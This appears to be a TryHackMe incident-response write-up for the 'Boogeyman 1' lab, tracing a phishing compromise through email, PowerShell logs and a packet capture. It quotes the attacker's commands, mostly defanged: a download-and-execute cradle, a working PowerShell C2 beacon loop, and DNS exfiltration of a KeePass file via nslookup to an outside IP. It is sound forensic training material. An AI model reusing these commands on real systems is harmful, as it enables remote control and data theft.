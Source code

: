 # Boogeyman 1

## Overview

Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.

[screenshot]

The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from the other finance department employees, making it seem to be a targeted attack on the finance team. Upon checking the latest trends, the initial TTP used for the malicious attachment is attributed to the new threat group named Boogeyman, known for targeting the logistics sector. Our job is to analyse and assess the impact of the compromise.

We are given the following artefacts:

- Copy of the phishing email (`dump[.]eml`)
- Powershell Logs from Julianne's workstation (`powershell[.]json`)
- Packet capture from the same workstation (`capture[.]pcapng`)

## Investigation

### Email Analysis

We are able to extract various information from the provided [dump[.]eml](./dump[.]eml) file, such as sender and victim email address, name of the file inside the encrypted attachment and more. We also have a Base64 encoded payload:

```text
aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
```

Using [Cyberchef](hxxps[://]gchq[.]github[.]io/CyberChef/), we are able to decrypt the payload and see the malicious command:

```bash
iex (new-object net[.]webclient).downloadstring('hxxp[://]files[.]bpakcaging[.]xyz/update')
```

This seems to be downloading a file from a malicious file hosting domain. At this point in our investigation, it is a good idea to pivot to the powershell logs.

### Downloaded Files

Using `jq`, a lightweight CLI tool for processing json files, we can view the structured data. We can see that the data follows structure similar to the following:

```json
{
  "Timestamp": "2023-01-13 17:12:18.427585Z",
  "Channel": "Microsoft-Windows-PowerShell/Operational",
  "Provider": "Microsoft-Windows-PowerShell",
  "Hostname": "QL-WKSTN-5693",
  "SID": "S-1-5-21-3258834958-2458682484-3394967329-1002",
  "EventID": 4104,
  "RecordID": 558,
  "Level": "Verbose",
  "Descr": "Creating Scriptblock text (<MessageNumber> of <MessageTotal>)",
  "MessageNumber": "1",
  "MessageTotal": "1",
  "ScriptBlockText": "{ Set-StrictMode -Version 1; $_.OriginInfo }",
  "ScriptBlockId": "349ed1ba-3ba0-4bca-9bc3-1dc465922c1c",
  "Path": null
}
```

Now lets assume that the attacker used domains for file hosting and C2 (command & control) by making `http` requests. We can see the requests made by using the following command:

```bash
ubuntu@tryhackme:~/Desktop/artefacts$ cat powershell[.]json | jq {ScriptBlockText} | grep http
  "ScriptBlockText": "iex(new-object net[.]webclient).downloadstring('hxxps[://]github[.]com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt[.]ps1');pwd"
  "ScriptBlockText": "$s='cdn[.]bpakcaging[.]xyz:8080';$i='8cce49b0-b86459bb-27fe2489';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/8cce49b0 -Headers @{\"X-38d2-8f49\"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/b86459bb -Headers @{\"X-38d2-8f49\"=$i}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/27fe2489 -Method POST -Headers @{\"X-38d2-8f49\"=$i} -Body ([System[.]Text[.]Encoding][:][:]UTF8[.]GetBytes($e+$r) -join ' ')} sleep 0.8}\n"
  "ScriptBlockText": "iex (new-object net[.]webclient).downloadstring('hxxp[://]files[.]bpakcaging[.]xyz/update')"
  "ScriptBlockText": "iwr hxxp[://]files[.]bpakcaging[.]xyz/sb[.]exe -outfile sb[.]exe;pwd"
  "ScriptBlockText": "iwr hxxp[://]files[.]bpakcaging[.]xyz/sq3[.]exe -outfile sq3[.]exe;pwd"

```

**Note:** I have defanged the output for safety/security

We can see that the domains `files[.]bpakcaging[.]xyz` and `github[.]com` were used to download files, and `cdn[.]bpakcaging[.]xyz` was used for C2. 

The attacker sends an initial beacon to `hxxp[://]cdn[.]bpakcaging[.]xyz:8080/8cce49b0`, and then continously checks in with `hxxp[://]cdn[.]bpakcaging[.]xyz:8080/b86459bb` to retrieve attacker commands. It then executes the retrieved commands, and send the results back to `hxxp[://]cdn[.]bpakcaging[.]xyz:8080/27fe2489`.

The attacker downloaded a `seatbelt[.]exe` file, `sb[.]exe` and `sq3[.]exe`. Although the domain `files[.]bpakcaging[.]xyz` does not exist, I researched that `seatbelt[.]exe` is a C# tool used for enumeration and information gathering. We can confirm the execution of `seatbelt[.]exe`:

```bash
ubuntu@tryhackme:~/Desktop/artefacts$ cat powershell[.]json | jq {ScriptBlockText} | grep seatbelt[.]exe -i
  "ScriptBlockText": "Seatbelt[.]exe -group=user;pwd"
```

We can also see the use of the `sb[.]exe` file, which also seems to be a sort of enumeration tool:

```bash
ubuntu@tryhackme:~/Desktop/artefacts$ cat powershell[.]json | jq {ScriptBlockText} | grep sb[.]exe   
  "ScriptBlockText": ".\\sb[.]exe -group=all;pwd"
  "ScriptBlockText": ".\\sb[.]exe;pwd"
  "ScriptBlockText": ".\\sb[.]exe system;pwd"
  "ScriptBlockText": ".\\sb[.]exe all;pwd"
  "ScriptBlockText": "iwr hxxp[://]files[.]bpakcaging[.]xyz/sb[.]exe -outfile sb[.]exe;pwd"
  "ScriptBlockText": ".\\sb[.]exe -group=user;pwd"
```

Now lets see if a file was accessed by the `sq3[.]exe` binary:

```bash
ubuntu@tryhackme:~/Desktop/artefacts$ cat powershell[.]json | jq {ScriptBlockText} | grep sq3[.]exe -i     
  "ScriptBlockText": ".\\Music\\sq3[.]exe AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum[.]sqlite \"SELECT * from NOTE limit 100\";pwd"
  "ScriptBlockText": ".\\sq3[.]exe AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\;pwd"
  "ScriptBlockText": "iwr hxxp[://]files[.]bpakcaging[.]xyz/sq3[.]exe -outfile sq3[.]exe;pwd"
```

It looks like `plum[.]sqlite` was accessed by the binary file.

### Data exfiltration

Let us look at other commands run by the intruder:

```bash
ubuntu@tryhackme:~/Desktop/artefacts$ cat powershell[.]json | jq {ScriptBlockText} | sort | uniq
  "ScriptBlockText": "$file='C:\\Users\\j[.]westcott\\Documents\\protected_data.kdbx'; $destination = \"167[.]71[.]211[.]113\"; $bytes = [System[.]IO[.]File][:][:]ReadAllBytes($file);;pwd"
  "ScriptBlockText": "$file='protected_data.kdbx'; $destination = \"167[.]71[.]211[.]113\"; $bytes = [System[.]IO[.]File][:][:]ReadAllBytes($file);;pwd"
  "ScriptBlockText": "$hex = ($bytes|ForEach-Object ToString X2) -join '';;pwd"
  "ScriptBlockText": "$s='cdn[.]bpakcaging[.]xyz:8080';$i='8cce49b0-b86459bb-27fe2489';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/8cce49b0 -Headers @{\"X-38d2-8f49\"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/b86459bb -Headers @{\"X-38d2-8f49\"=$i}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/27fe2489 -Method POST -Headers @{\"X-38d2-8f49\"=$i} -Body ([System[.]Text[.]Encoding][:][:]UTF8[.]GetBytes($e+$r) -join ' ')} sleep 0.8}\n"
  "ScriptBlockText": "$split = $hex -split '(\\S{50})'; ForEach ($line in $split) { nslookup -q=A \"$line[.]bpakcaging[.]xyz\" $destination;} echo \"Done\";;pwd"
  ...
```

We get some interesting output. It seems like the intruder has exfiltrated the `protected_data.kdbx` file to the IP `167[.]71[.]211[.]113`. They hex encoded the bytes/data of the file using the following command:

```bash
$hex = ($bytes|ForEach-Object ToString X2) -join '';;pwd
```

The intruder then used `nslookup`, which performs DNS queries, to exfiltrate the hex encoded data as a subdomain of the `bpakcaging[.]xyz` domain. 

### Network Analysis

Now that we know the attacker was able to exfiltrate two files to `bpakcaging[.]xyz`, we can look at the packet capture using Wireshark.

Since we were able to see the IP and host name of the file hosting server (`167[.]71[.]211[.]113`, `files[.]bpakcaging[.]xyz`) that the attacker used, we can prepare a filter in Wireshark to see the server's `http` responses:

[screenshot]

We can see that the attacker is using Python's SimpleHTTP server.

Additionally, we can also view the requests and responses to the C2 server with the host name `cdn[.]bpakcaging[.]xyz:8080`. The `GET` requests did not show anything of high interest, but looking at the `POST` requests, we see the following:

[screenshot]

Decoding the encoded data in the body of the `POST` request using [Cyberchef](hxxps[://]gchq[.]github[.]io/CyberChef/), we can see the the attacker is sending the output of the commands being run on the victim machine back to the malicious server.

Now lets look at the `protected_data.kdbx` exfiltrated file. We know that the attacker used `nslookup`, a tool used for making DNS requests, to exfiltrate the file to the `bpakcaging[.]xyz` domain, and the attacker has explicitly set the DNS server to server these requests with an IP of `167[.]71[.]211[.]113`. Therefore, we can set the Wireshark filter appropriately and we get the following results:

[screenshot]

Recall that the subdomain contained hex encoded data of the exfiltrated file. If we want to reconstruct the data, using Wireshark will not be too helpful for us since we would need to decode the all the subdomains back to its original form. Lets switch over to TShark for the added CLI ability to extract and format the relevant data. 

We can then run the following command using TShark:

```bash
ubuntu@tryhackme:~/Desktop/artefacts$ tshark -r capture.pcapng -Y 'ip.dst == 167.71.211.113 and dns and dns.qry.name contains "bpakcaging.xyz"'                          
47772 1797.245223 10.10.182.255 ? 167.71.211.113 DNS 163 Standard query 0x0002 A 03D9A29A67FB4BB50100030002100031C1F2E6BF714350BE58.bpakcaging.xyz.eu-west-1.ec2-utilities.amazonaws.com
47774 1797.431661 10.10.182.255 ? 167.71.211.113 DNS 152 Standard query 0x0003 A 03D9A29A67FB4BB50100030002100031C1F2E6BF714350BE58.bpakcaging.xyz.eu-west-1.compute.internal
47776 1797.609447 10.10.182.255 ? 167.71.211.113 DNS 125 Standard query 0x0004 A 03D9A29A67FB4BB50100030002100031C1F2E6BF714350BE58.bpakcaging.xyz
47782 1798.471118 10.10.182.255 ? 167.71.211.113 DNS 163 Standard query 0x0002 A 05216AFC5AFF03040001000000042000AF4DE7A467FADFBFEB.bpakcaging.xyz.eu-west-1.ec2-utilities.amazonaws.com
47784 1798.656750 10.10.182.255 ? 167.71.211.113 DNS 152 Standard query 0x0003 A 05216AFC5AFF03040001000000042000AF4DE7A467FADFBFEB.bpakcaging.xyz.eu-west-1.compute.internal
47786 1798.825166 10.10.182.255 ? 167.71.211.113 DNS 125 Standard query 0x0004 A 05216AFC5AFF03040001000000042000AF4DE7A467FADFBFEB.bpakcaging.xyz
47792 1799.752241 10.10.182.255 ? 167.71.211.113 DNS 163 Standard query 0x0002 A EB78AE194B03926333E0CC968727A1FF8CC4CD5151FAAC0520.bpakcaging.xyz.eu-west-1.ec2-utilities.amazonaws.com
47794 1799.935720 10.10.182.255 ? 167.71.211.113 DNS 152 Standard query 0x0003 A EB78AE194B03926333E0CC968727A1FF8CC4CD5151FAAC0520.bpakcaging.xyz.eu-west-1.compute.internal
...
```

With the above command, we get the data we want but we also get a lot of clutter with it. So lets create a command to clean everything up to get our data ready to re-create the exfiltrated file:

```bash
tshark -r capture.pcapng -Y 'ip.dst == 167.71.211.113 and dns and dns.qry.name contains "bpakcaging.xyz"' -T fields -e dns.qry.name | cut -d '.' -f1 | uniq | tr -d '\n' > protected_data_hex
```

What we did with this command is apply the same filter as we did in Wireshark, display just the query names, clean the output up so that we have just the hex encoded data on a single line, and save it to a file. We can now finally convert this file back to its original form like so:

```bash
cat protected_data_hex | xxd -r -p > protected_data.kdbx
```

Where `xxd` is a tool used to convert hexadecimal representation to ASCII. 

When we now try to open our reconstructed `protected_data.kdbx` file, we are asked for a password - but where do we find that? Perhaps it could be stored in the database file (`plum.sqlite`) that the attacker accessed using `sq3.exe`? Looking at the timestamp of `2023-01-13 17:25:38.759011Z` of when the file was accessed, lets check for Wireshark logs during the C2 connection around the same time to see if we can spot the password.

[screenshot]

Looking at the log immediately after the above timestamp, we were able to decode the data sent in the the log to spot a password! Once we entered the password to unlock the file, we are able to see sensitive information:

[screenshot]

---

